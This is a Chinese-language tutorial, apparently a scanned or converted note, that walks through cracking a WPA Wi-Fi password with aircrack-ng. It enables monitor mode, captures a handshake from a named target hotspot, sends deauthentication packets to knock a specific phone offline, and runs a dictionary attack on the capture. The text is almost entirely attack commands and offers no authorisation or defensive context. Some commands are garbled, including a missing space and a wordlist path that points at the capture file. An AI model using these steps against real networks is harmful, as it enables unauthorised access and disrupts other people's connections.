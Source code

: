(bssid是wifi的关键，station是手机的mac地址)

1，插入无线网卡，选择连接到虚拟机→Debian 6 64位(可以在  虚拟机→可移动设备→Realtek RTL8187查看)

2，使用`ifconfig`查看无线网卡是否接入成功，成功会看到`wlan0`出现(没出现爷不要紧，跟着下面做)



3，==查看网卡是否支持监听模式==。在终端输入：`airmon-ng`，出现的内容列出了支持监听模式的无线网卡，可以看到wlan0支持监听模式


4，在终端输入：`airmon-ng start wlan0`,执行成功后网卡接口变成wlan0mon;可以使用ifconfig命令查看(==开启监听模式==)

5，`airmon-ngcheck kill` 杀死一切干扰无线网卡监听热点的信号（不行也没问题）


6,==开启监听==`airodump-ng wlan0mon`

7，当搜索到目标热点时 `ctrl+c` 停止。记下目标热点的`Bssid`：`E4:46:DA:06:C3:F2`和信道`CH`:13，目标名mix2

8,开始抓取握手包`airodump-ng -c 13 --bssid E4:46:DA:06:C3:F2 -w /root/root/1.txt wlan0mon`

-c指定信道

--bssid指定路由器bssid 

-w指定抓取的数据包保存的目录位置

---


9，另开一个终端开始给连接到目标热点的设备发死亡包
`aireplay-ng -0 2 -a E4:46:DA:06:C3:F2 -c 9C:2E:A1:00:11:42 wlan0mon`
-0表示发起几次攻击，0表示无限

-a指定无线路由器BSSID

-c指定强制断开的设备mac地址

---


10,如果成功抓取到了握手包的话原终端时间后面会有一个`[WPA handshake:E4:46:DA:06:C3:F2]`，这时候安Ctrl+C结束抓包

11，结束无线网卡的监控模式`airmon-ng stop wlan0mon`

12,开始破解密码`aircrack-ng -a2 -b E4:46:DA:06:C3:F2 -w /root/root/1.txt ~/-01.cap`

-a2代表WPA的握手包

-b指定要破解的wifi BSSID。

-w指定字典文件

-最后是抓取的包。